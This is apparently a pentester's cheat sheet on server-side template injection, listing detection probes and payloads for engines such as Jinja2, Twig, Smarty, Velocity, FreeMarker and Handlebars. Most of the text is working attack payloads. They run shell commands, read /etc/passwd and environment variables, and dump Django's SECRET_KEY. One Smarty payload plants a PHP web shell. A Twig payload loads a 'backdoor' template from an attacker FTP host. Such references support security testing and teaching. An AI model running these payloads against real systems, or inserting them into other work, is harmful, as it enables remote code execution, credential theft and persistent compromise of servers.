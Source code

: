 # Template Injection

## Testing for SSTI

Try submitting a fuzzed payload such as `${{<%[%'"}}%\` if a stack trace error is displayed then the application is vulnerable.

To distinguish between XSS and SSTI submit payloads that trigger mathematical operations such as `${2*2}` if the output is 4 then the vulnerability is aa SSTI

If the user input is included inside a code block follow this steps

1. Verify that the attack is not an XSS by passing a payload including HTML tags such as `str<b>test</b>` if the tags and the content included are not rendered then the vulnerability is not an XSS
2. Try to escape from the code block by submitting a payload as follow (adjust based on the engine's syntax): `}}<b>test</b>`
3. If the content of the code block is rendered correctly alongside the injected tags then the application is vulnerable to SSTI

## Engine identification

#### Generic

```
${{<%[%'"}}%\
```

#### AngularJS

```
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
```

#### VueJS

```
{{_openBlock.constructor('alert(1)')()}}     //V3
{{constructor.constructor('alert(1)')()}}    //V2
```

#### Mavo

```
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
```

#### Java

```
${7*7}
${T(java.lang.System).getenv()}
${class.getClassLoader()}
```

#### ERB

```
<%= 7*7 %>
<%= foobar %>
```

#### Twig

```
{{7*7}}
{{7*'7'}}
```

#### Smarty

```
{$smarty.version}
```

#### Django - Python

```
{% raw %}
{% debug %}
{% endraw %}
{{settings.SECRET_KEY}}
```

#### Tornado - Python

```
{% raw %}
{% import foobar %} = Error
{% import os %}
{% endraw %}{{os.system('whoami')}}
```

#### Flask/Jinja2

```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
```

#### Razor

```
@(1+2)
```

## Client Side Payloads

### AngularJS

```
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

### VueJS

```
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
{{_openBlock.constructor('alert(1)')()}}     //V3
{{constructor.constructor('alert(1)')()}}    //V2
```

### Mavo

```
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
```

## Server Side Payloads

### FreeMarker - java

```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```

### Java

```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

### Twig - PHP

```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

### Smarty - PHP

```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

### Handlebars - NodeJs

```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
```

### Velocity

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

### ERB - Ruby

```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

### Django - Python

```
{% raw %}
{% debug %}
{% endraw %}
{{settings.SECRET_KEY}}
```

### Tornado - Python

```
{% raw %}
{% import foobar %} = Error
{% import os %}
{% endraw %}{{os.system('whoami')}}
```

### Mojolicious - Perl

```
<%= perl code %>
<% perl code %>
```

### Flask/Jinja2

```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{% raw %}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
{% endraw %}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

### Jade

```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

### Razor - .Net

```
@(1+2)
@{// C# code}
```




